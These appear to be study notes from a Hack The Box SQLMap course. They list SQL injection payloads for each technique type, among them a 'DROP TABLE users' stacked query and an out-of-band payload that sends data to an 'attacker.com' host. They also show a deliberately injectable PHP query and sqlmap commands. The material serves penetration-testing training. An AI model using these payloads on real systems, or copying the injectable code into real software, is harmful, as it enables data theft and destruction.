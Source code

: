The technique characters `BEUSTQ` refers to the following:

- `B`: Boolean-based blind
- `E`: Error-based
- `U`: Union query-based
- `S`: Stacked queries
- `T`: Time-based blind
- `Q`: Inline queries
## Boolean-based blind SQL Injection
```sql
AND 1=1
```

## Error-based SQL Injection
```sql
AND GTID_SUBSET(@@version,0)
```

## UNION query-based
```sql
UNION ALL SELECT 1,@@version,3
```

## Stacked queries
```sql
; DROP TABLE users
```

## Time-based blind SQL Injection
```sql
AND 1=IF(2>1,SLEEP(5),0)
```

## Inline queries
```sql
SELECT (SELECT @@version) from
```

## Out-of-band SQL Injection
```sql
LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))
```

>Error-based SQLi is considered as faster than all other types, except UNION query-based, because it can retrieve a limited amount (e.g., 200 bytes) of data called "chunks" through each request.




------

# Getting Started with SQLMap

```shell-session
AhmaDb0x@htb[/htb]$ sqlmap -hh
```

## Basic Scenario
a penetration tester accesses the web page that accepts user input via a `GET` parameter (e.g., `id`). They then want to test if the web page is affected by the SQL injection vulnerability. If so, they would want to exploit it, retrieve as much information as possible from the back-end database, or even try to access the underlying file system and execute OS commands. An example SQLi vulnerable PHP code for this scenario would look as follows

```php
$link = mysqli_connect($host, $username, $password, $database, 3306);
$sql = "SELECT * FROM users WHERE id = " . $_GET["id"] . " LIMIT 0, 1";
$result = mysqli_query($link, $sql);
if (!$result)
    die("<b>SQL error:</b> ". mysqli_error($link) . "<br>\n");
```

`http://www.example.com/vuln.php?id=1`
```shell-session
AhmaDb0x@htb[/htb]$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch
```

>Note: in this case, option '-u' is used to provide the target URL, while the switch '--batch' is used for skipping any required user-input, by automatically choosing using the default option.


# SQLMap Output Description

At the end of the previous section, the sqlmap output showed us a lot of info during its scan. This data is usually crucial to understand, as it guides us through the automated SQL injection process. This shows us exactly what kind of vulnerabilities SQLMap is exploiting, which helps us report what type of injection the web application has. This can also become handy if we wanted to manually exploit the web application once SQLMap determines the type of injection and vulnerable parameter.

## Log Messages Description
https://academy.hackthebox.com/module/58/section/696




